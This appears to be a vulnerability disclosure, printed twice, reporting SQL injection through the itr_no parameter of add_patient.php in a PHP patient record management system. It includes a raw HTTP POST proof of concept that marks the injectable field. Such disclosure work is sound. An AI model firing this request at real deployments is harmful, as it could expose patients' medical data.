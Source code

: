 # patient-record-management-system-in-php has sql injection in add_patient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

add_patient.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in add_patient.php The parameters that can be controlled are as follows: $itr_no. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/53442d2c-c071-49b9-8063-17e60c918e40)



## POC

asset the url，can get the sql reqult on the page.

```
POST /add_patient.php HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://healthcarepatientrecordmanagementsystem
Connection: close
Referer: http://healthcarepatientrecordmanagementsystem/add_patient.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

save_patient=1&itr_no=1*
```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)# patient-record-management-system-in-php has sql injection in add_patient.php

## supplier 

https://code-projects.org/patient-record-management-system-in-php-with-source-code/#google_vignette

## Vulnerability parameter

add_patient.php

## describe

An unrestricted SQL injection attack exists in patient-record-management-system-in-php in add_patient.php The parameters that can be controlled are as follows: $itr_no. This function executes the id parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![Image](https://github.com/user-attachments/assets/53442d2c-c071-49b9-8063-17e60c918e40)



## POC

asset the url，can get the sql reqult on the page.

```
POST /add_patient.php HTTP/1.1
Host: healthcarepatientrecordmanagementsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://healthcarepatientrecordmanagementsystem
Connection: close
Referer: http://healthcarepatientrecordmanagementsystem/add_patient.php?
Upgrade-Insecure-Requests: 1
Priority: u=0, i

save_patient=1&itr_no=1*
```

**Result**

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
